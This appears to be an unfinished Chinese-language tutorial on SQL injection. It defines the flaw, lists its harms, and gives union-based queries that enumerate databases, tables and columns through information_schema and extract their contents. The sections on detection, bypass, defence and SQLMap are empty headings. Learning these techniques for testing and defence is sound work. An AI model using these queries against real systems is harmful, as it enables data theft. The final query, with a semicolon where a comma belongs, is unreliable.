 # SQL 注入漏洞

## SQL注入概述

 服务端没有对用户提交的参数进行严格的过滤, 导致可以将SQL语句插入到可控参数中, 改变原有的SQL语义结构, 从而执行攻击者所预期的结果.

### 危害

* 获取数据库内容(拖库)
* 读取敏感系统文件
* 写入 Webshell
* 命令执行

## SQL注入利用

### 联合注入

`union` 用于合并两个SELECT 的结果集合.

* union 中必须由两条或两条以上的 select 语句组成, 语句之间使用 union 链接
* union 中的每个查询必须包含相同的列, 表达式或者聚合函数, 顺序可以不一致(查询字段相同, 表不一定相同)
* 列的数据类型必须兼容, 即必须是数据库可以隐含的转化他们的类型

所有数据库名: information_schema.SCHEMATA

```sql
SELECT
	1,
	GROUP_CONCAT( schema_name ),
	3 
FROM
	information_schema.SCHEMATA
```

所有表名: information_schema.TABLES

```sql
SELECT
	1,
	GROUP_CONCAT( table_name ),
	3 
FROM
	information_schema.TABLES 
WHERE
	table_schema = "数据库名"
```

查看某个表的列名

```sql
SELECT
	1,
	GROUP_CONCAT( column_name ),
	3 
FROM
	information_schema.COLUMNS 
WHERE
	table_name = "表名"
```

获取表中数据

```sql
SELECT
	1,
	GROUP_CONCAT( 列名 ),
	3 
FROM
	表名
ORDER BY
	2
```

查询数据库系统版本号和当前数据库名

```sql
SELECT
	1,
	2,
	VERSION();DATABASE()
```

### 报错注入

利用页面返回的 MySQL 报错信息, 将想得到数据库通过报错信息带出. 报错注入的利用方式和 MySQL 版本有很大的关联. 

## SQL注入探测



## SQL注入绕过



## SQL注入防御



## SQLMap使用